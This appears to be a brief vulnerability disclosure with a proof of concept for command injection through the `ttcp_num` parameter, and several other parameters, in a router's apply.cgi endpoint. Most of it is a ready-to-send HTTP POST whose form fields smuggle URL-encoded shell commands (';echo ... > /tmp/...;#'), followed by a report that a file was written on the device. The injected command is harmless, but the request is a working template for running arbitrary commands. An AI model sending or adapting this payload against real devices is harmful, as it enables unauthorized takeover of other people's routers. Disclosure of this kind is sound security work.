

# ttcp_num

in function `start_EPI`, we can inject `ttcp_num` to do anything

# PoC
plz replace the session

```http
POST /apply.cgi;session_id=ee76bb45012c149b26e22fa0037333fa HTTP/1.1
Host: 192.168.1.1
Content-Length: 380
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/SingleForward.asp;session_id=ee76bb45012c149b26e22fa0037333fa
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

need_reboot=1&commit=1&need_action=1&nvset_cgi=1&StartEPI=1&wl_ant=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&wl_ssid=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&wl_rate=%3Becho%20%22hacker_payload%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s&ttcp_num=%3Becho%20%22hacker_payload_ttcp_num%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s%3B&ttcp_ip=%3Becho%20%22hacker_payload_ttcp_ip%22%20%3E%20%2Ftmp%2Fc10uds%3B%23s%3B&ttcp_size=114514
```


# result
I successfully touch a file with the content "hacker_payload_ttcp_num"

